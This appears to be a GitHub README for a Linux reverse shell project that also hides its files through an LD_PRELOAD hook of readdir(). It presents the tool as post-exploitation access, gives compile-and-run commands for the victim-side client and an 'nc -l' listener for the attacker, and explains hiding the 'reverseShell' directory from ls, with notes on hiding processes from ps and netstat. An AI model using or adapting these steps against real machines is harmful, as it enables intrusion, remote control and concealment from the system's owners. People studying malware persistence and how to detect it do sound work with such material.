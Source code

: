 ## Linux Reverse Shell
Target system(victim) acts an client and sever is setup by connection initiator(attacker). This is used as a one of post-exploitation tools to gain persistent remote access to victim machine.

### Advantages
* This remove the requirement of victim's machine IP address and port
* May help an attacker to bypass incoming connection firewall rules.

### usage of reverseShell
<code>
    # victim's machine
    gcc rvrshell.c -o rvrshell <br> 
    ./rvrshell [IPV4 Addr] [port]
    
</code><br>
<code>
    # attacker's machine <br>
    nc -l [port] <br>
      <or>  <br>
    gcc shellsrv.c -o srv <br>
    ./shellsrv.c [port]
</code>



### Dynamic linking/ Function call hooking

Now to we will be looking at concept of **Function call hooking** using dynamic linking(shared libraries)-
Dynamic linker provides feature for development of shared libraries and debugging purposes. Such LD_PRELOAD environment viriable or /etc/ld.preload.so in linux which make loading specified library function into memory before default libraries.[<sup>1</sup>](https://tldp.org/HOWTO/Program-Library-HOWTO/shared-libraries.html)

**Function call hooking** refers to a range of techniques used to intercept calls to pre-existing functions and wrap around them to modify the function’s behavior at runtime. [<sup>2</sup>](https://www.netspi.com/blog/technical/network-penetration-testing/function-hooking-part-i-hooking-shared-library-function-calls-in-linux/)


### Make it invisible & persistent
<!-- will GO here -->

We will be using function call hooking to hide our executables files from /bin/ls

Here, We hooked function **readdir()**[<sup>3</sup>](https://man7.org/linux/man-pages/man3/readdir.3.html) which act as C wrapper to getdents(), which is used by /bin/ls to list directories. <code>strace /bin/ls </code>

Instead of hiding files, we hooked readdir() function just to hide directory of name "reverseShell". We modified readdir() in such a way that when it get entry for "hidden_dir_name" it skips and hop to next entry and returns next dirent pointer.

> This can be further improve by hooking more function call to hide process from ps and netstat, but here it completes the purpose of project.

#### Usage & compilation of libreaddir.c -
<code>> gcc -Wall -fPIC -shared libreaddir.c -ldl -D_GNU_SOURCE -o libreaddir.so   </code> <br>
( by convention shared lib end with .so  & static lib with .a )
<br><code>> export LD_PRELOAD=/path/to/libreaddir.so </code>

[<sub>Read here for more details about shared library</sub>](https://tldp.org/HOWTO/Program-Library-HOWTO/shared-libraries.html)












